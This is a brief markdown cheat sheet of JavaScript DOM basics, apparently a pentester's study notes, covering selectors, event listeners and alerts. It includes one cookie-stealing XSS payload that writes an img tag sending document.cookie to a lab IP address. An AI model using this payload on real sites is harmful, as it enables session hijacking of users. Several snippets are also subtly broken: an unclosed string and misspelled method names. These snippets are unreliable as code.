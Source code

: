 # Document Object Model (DOM)

### Basics
> console.log("Hello World!);
>
> document.cookie
>
> 
> document.getElementById('1');
> 
> document.getElementByTagName('div');
> 
> document.getElementByClassName('list-items');
> 
> document.querySelector(#main-heading);
> 
> document.querySelectorAll('div');
> 
> 
> document.write('something');
> 
> document.write('<img src="http://10.10.14.13/?'+document.cookie+'">');
> 

### Event Listeners 
>
>element.addEventListener("click", function);
>
>element.addEventListener("mouseover", function);
>

### Window Objects

> window.alert('1');
> alert(prompt());
#
